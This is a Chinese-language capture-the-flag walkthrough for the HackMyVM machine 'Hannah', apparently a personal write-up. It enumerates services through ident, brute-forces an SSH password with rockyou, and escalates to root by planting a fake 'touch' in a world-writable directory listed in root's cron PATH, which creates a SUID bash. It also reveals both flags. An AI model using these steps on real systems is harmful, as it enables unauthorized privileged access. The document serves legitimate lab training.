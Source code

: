 # Hannah

2025.02.20 https://hackmyvm.eu/machines/machine.php?vm=Hannah

## Ip

192.168.5.40

# Scan

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
|_auth-owners: root
| ssh-hostkey:
|   3072 5f1c78369905320982d3d5054c1475d1 (RSA)
|   256 0669ef979b34d7f3c79660d1a1ffd82c (ECDSA)
|_  256 853dda74b2684ea6f7e5f58540902e9a (ED25519)
80/tcp  open  http    nginx 1.18.0
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry
|_/enlightenment
|_auth-owners: moksha
|_http-server-header: nginx/1.18.0
113/tcp open  ident?
|_auth-owners: root
```

80 web robots.txt 显示 /enlightenment 访问后是 404，扫描后也没其他路径。

看看 ident 的功能定义：

```
此包是一个简单的 PERL 脚本，用于查询 ident 服务 (113/TCP)，以确定监听目标系统每个 TCP 端口的进程的所有者。这有助于在渗透测试期间确定目标服务的优先级（您可能希望首先攻击以 root 身份运行的服务）。或者，收集的用户名列表可用于对其他网络服务进行密码猜测攻击。
```

再看 ident 113 端口枚举出来的服务运行用户信息，moksha 和 root，现在有一个用户名，尝试 rockyou 爆破，得到登陆密码: hannah ， ssh 登陆该用户。

得到 user flag：

```
moksha@hannah:~$ cat user.txt
HMVGGHFWP2023
```

/etc/crontab 发现 :

```
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/media:/bin:/usr/sbin:/usr/bin

* * * * * root touch /tmp/enlIghtenment
```

发现 touch 的路径为 /usr/bin/touch ，PATH 中/media 路径在/usr/bin 之前，发现/media 目录权限是 777，可以执行路径劫持：

```
echo 'cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash' > /media/touch
chmod +x /media/touch
```

等待 1 分钟，出现 suid 程序 rootbash，得到 root flag：

```
moksha@hannah:/var/www/html$ /tmp/rootbash -p
rootbash-5.1# cd /root
rootbash-5.1# ls
root.txt
rootbash-5.1# cat root.txt
HMVHAPPYNY2023
```
